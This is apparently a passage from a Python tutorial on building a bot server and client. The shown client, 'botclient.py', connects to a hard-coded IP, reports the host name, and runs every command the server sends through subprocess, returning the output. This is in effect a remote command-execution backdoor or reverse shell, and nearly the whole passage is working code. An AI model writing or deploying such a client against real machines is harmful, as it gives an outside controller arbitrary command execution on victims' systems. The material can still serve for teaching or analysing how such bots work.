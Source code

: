 ```python

if __name__=='__main__':

    HOST,PORT='',8000
    tcpserver=socketserver.TCPServer((HOST,PORT),BotHandler)

    try:
        print('Bot server is listening...')
        tcpserver.serve_forever()
    except Exception as e:
        print('Oups ! : An error occured .')
        print(e)
```
It's time to move on to implementing our client bot.

### botclient.py

For our client, we import the **socket** and **subprocess** libs  
```python
import socket
import subprocess
```  

The `botclient()` function creates a tcp socket and connects to the server:
```python  
def botclient():
    HOST = '192.168.100.152'#replace with the proper ip 
    PORT = 8000

    s = socket.socket()
    s.connect((HOST, PORT))

    message = 'Connection from '+socket.gethostname()
    s.send(message.encode())
    data = s.recv(1024).decode()
```  

As long as the received packet does not come with an __'end'__ message, we execute the contents of the received packet: `message = subprocess.run(data.split(' '), stdout=subprocess.PIPE)` .
'subprocess.run(['cmd','args'],stdout)' the function take a list as argument .  
```python
while data != 'end':
        if (data):
            try:
                message = subprocess.run(data.split(' '), stdout=subprocess.PIPE)
                s.send(message.stdout)
            except Exception as e:
                print('Error processing'.format(data))
                print(e)
        data = s.recv(1024).decode()
    s.close()
```  
